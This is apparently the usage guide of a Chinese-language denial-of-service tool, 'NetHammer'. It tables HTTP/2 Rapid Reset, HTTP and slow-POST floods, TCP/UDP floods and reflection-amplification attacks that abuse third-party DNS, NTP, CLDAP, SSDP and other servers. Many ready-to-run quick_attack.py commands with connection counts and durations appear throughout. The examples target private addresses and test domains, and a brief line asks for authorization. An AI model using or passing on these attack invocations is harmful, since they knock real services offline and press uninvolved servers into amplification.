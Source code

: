 # NetHammer 目标类型说明

## 📋 测试方法与目标类型对应表

### 🌐 需要域名的方法 (应用层攻击)

这些方法需要域名，因为它们工作在应用层，需要进行DNS解析或HTTP请求：

| 方法 | 目标类型 | 端口 | 说明 |
|------|----------|------|------|
| **http2** | 域名 | 443/80 | HTTP/2 Rapid Reset攻击，需要建立HTTP/2连接 |
| **http** | 域名 | 80/443 | HTTP洪水攻击，需要发送HTTP请求 |
| **rudy** | 域名 | 80/443 | 慢速POST攻击，需要HTTP协议 |

**示例:**
```bash
# ✅ 正确 - 使用域名
python3 quick_attack.py test.local -p 443 -m http2 -c 200 -t 600
python3 quick_attack.py example.local -p 80 -m http -c 150 -t 300

# ❌ 错误 - 不要对这些方法使用IP
# python3 quick_attack.py 192.168.1.100 -m http2  # 这样不会工作
```

### 🔢 支持IP地址的方法 (网络层攻击)

这些方法工作在网络层或传输层，可以直接使用IP地址：

| 方法 | 目标类型 | 端口 | 说明 |
|------|----------|------|------|
| **syn** | IP/域名 | 任意 | SYN洪水攻击，TCP层攻击 |
| **ack** | IP/域名 | 任意 | ACK洪水攻击，TCP层攻击 |
| **udp** | IP/域名 | 任意 | UDP洪水攻击，UDP层攻击 |
| **fin** | IP/域名 | 任意 | FIN洪水攻击，TCP层攻击 |
| **rst** | IP/域名 | 任意 | RST洪水攻击，TCP层攻击 |
| **psh** | IP/域名 | 任意 | PSH洪水攻击，TCP层攻击 |

**示例:**
```bash
# ✅ 推荐 - 使用IP地址
python3 quick_attack.py 192.168.1.100 -m syn -c 300 -t 600
python3 quick_attack.py 192.168.1.100 -m udp -c 200 -t 300

# ✅ 也可以 - 使用域名 (会自动解析为IP)
python3 quick_attack.py test.local -m syn -c 300 -t 600
```

### 🔄 反射放大攻击 (特殊情况)

这些方法使用第三方服务器进行反射攻击，目标可以是IP或域名：

| 方法 | 目标类型 | 端口 | 说明 |
|------|----------|------|------|
| **dns** | IP/域名 | 53 | DNS反射攻击，使用DNS服务器放大 |
| **ntp** | IP/域名 | 123 | NTP反射攻击，使用NTP服务器放大 |
| **ssdp** | IP/域名 | 1900 | SSDP反射攻击，使用UPnP设备放大 |
| **cldap** | IP/域名 | 389 | CLDAP反射攻击，使用LDAP服务器放大 |
| **coap** | IP/域名 | 5683 | CoAP反射攻击，使用IoT设备放大 |
| **snmp** | IP/域名 | 161 | SNMP反射攻击，使用SNMP设备放大 |
| **netbios** | IP/域名 | 137 | NetBIOS反射攻击 |

**示例:**
```bash
# ✅ 推荐 - 使用IP地址 (更直接)
python3 quick_attack.py 192.168.1.100 -m dns -c 100 -t 600
python3 quick_attack.py 192.168.1.100 -m cldap -c 80 -t 900

# ✅ 也可以 - 使用域名
python3 quick_attack.py test.local -m dns -c 100 -t 600
```

### 🎯 高级专用方法

| 方法 | 目标类型 | 说明 |
|------|----------|------|
| **arme** | IP/域名 | 高级TCP攻击 |
| **dominate** | IP/域名 | 多协议组合攻击 |
| **essyn** | IP/域名 | 增强SYN攻击 |
| **trigemini** | IP/域名 | 三重协议攻击 |
| **vse** | IP/域名 | 游戏服务器专用 |

## 🔧 实际使用建议

### 📝 选择目标类型的原则

1. **测试Web服务** → 使用域名
   ```bash
   python3 quick_attack.py your-test-site.local -m http2
   ```

2. **测试网络设备** → 使用IP地址
   ```bash
   python3 quick_attack.py 192.168.1.1 -m syn
   ```

3. **测试服务器性能** → 根据服务类型选择
   ```bash
   # Web服务器
   python3 quick_attack.py web.test.local -m http2
   
   # 数据库服务器
   python3 quick_attack.py 192.168.1.100 -p 3306 -m syn
   ```

### ⚠️ 重要提醒

- **域名示例**: 请使用 `test.local`, `example.local` 等测试域名
- **IP示例**: 请使用 `192.168.x.x`, `10.x.x.x` 等私有IP
- **生产环境**: 确保获得明确授权后再进行任何测试
- **白名单保护**: 工具会自动阻止对重要机构的测试

### 🛡️ 安全启动示例

```bash
# 安全启动 - 自动进行目标类型检查
python3 safe_launch.py test.local -m http2 -c 200 -t 600
python3 safe_launch.py 192.168.1.100 -m syn -c 300 -t 600
```
